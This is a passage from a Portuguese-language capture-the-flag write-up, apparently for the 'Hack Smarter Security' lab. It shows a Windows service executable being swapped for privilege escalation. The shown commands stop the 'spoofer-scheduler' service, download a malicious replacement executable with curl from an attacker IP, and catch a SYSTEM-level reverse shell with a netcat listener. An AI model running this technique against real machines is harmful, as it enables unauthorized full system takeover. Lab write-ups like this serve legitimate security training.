 Após isso, você transfere a payload maliciosa para a máquina da vítima.

Com base nas informações obtidas, o próximo passo é **encerrar o processo** do `"spoofer-scheduler"` para que seja possível substituir o executável legítimo pelo executável malicioso.

```
tyler@HACKSMARTERSEC C:\Program Files (x86)\Spoofer>sc stop spoofer-scheduler

SERVICE_NAME: spoofer-scheduler
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x2
        WAIT_HINT          : 0x0
```

`tyler@HACKSMARTERSEC C:\Program Files (x86)\Spoofer>curl 10.11.85.218/spoofer-scheduler.exe -o spoofer-scheduler.exe`

Após iniciar o serviço é tenho que apenas esperar a conexão ser estabelecida.

```
arthur-strelow@ubuntu-star:~$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.248.110 49798
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> cd ../../Users
C:\Users> dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users

06/30/2023  07:10 PM    <DIR>          .
06/30/2023  07:10 PM    <DIR>          ..
06/26/2025  05:34 PM    <DIR>          Administrator
12/12/2018  07:45 AM    <DIR>          Public
06/30/2023  07:10 PM    <DIR>          tyler
               0 File(s)              0 bytes
               5 Dir(s)  14,117,548,032 bytes free
C:\Users> cd Administrator


C:\Users\Administrator> cd Desktop
C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\Administrator\Desktop

06/30/2023  07:08 PM    <DIR>          .
06/30/2023  07:08 PM    <DIR>          ..
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
06/30/2023  06:40 PM    <DIR>          Hacking-Targets
               2 File(s)          1,081 bytes
               3 Dir(s)  14,117,548,032 bytes free
C:\Users\Administrator\Desktop> cd Hacking-Targets
C:\Users\Administrator\Desktop\Hacking-Targets> dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

```